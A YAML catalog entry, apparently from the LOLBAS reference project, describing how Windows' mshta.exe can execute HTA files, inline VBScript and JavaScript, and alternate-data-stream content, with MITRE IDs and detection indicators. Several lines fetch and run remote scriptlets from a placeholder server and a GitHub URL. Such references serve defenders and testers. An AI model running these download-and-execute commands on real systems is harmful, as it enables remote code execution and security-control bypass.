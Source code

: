 ```yaml
---
name: Mshta.exe
description: Used by Windows to execute html applications. (.hta)
functions:
  execute:
    - description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
      code: mshta.exe evilfile.hta
      mitreid: T1170
      mitrelink: https://attack.mitre.org/wiki/Technique/T1170
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code
    - description: Executes VBScript supplied as a command line argument.
      code: mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
      mitreid: T1170
      mitrelink: https://attack.mitre.org/wiki/Technique/T1170
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code
    - description: Executes JavaScript supplied as a command line argument.
      code: mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
      mitreid: T1170
      mitrelink: https://attack.mitre.org/wiki/Technique/T1170
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code
  ads:
    - description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
      code: mshta.exe "C:\ads\file.txt:file.hta"
      mitreid: T1170
      mitrelink: https://attack.mitre.org/wiki/Technique/T1170
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute code hidden in alternate data stream
resources:
    - resource: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
    - resource: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
    - resource: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
    - resource: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
fullpath:
    - path: C:\Windows\System32\mshta.exe
    - path: C:\Windows\SysWOW64\mshta.exe
detection:
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: Usage of HTA file
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

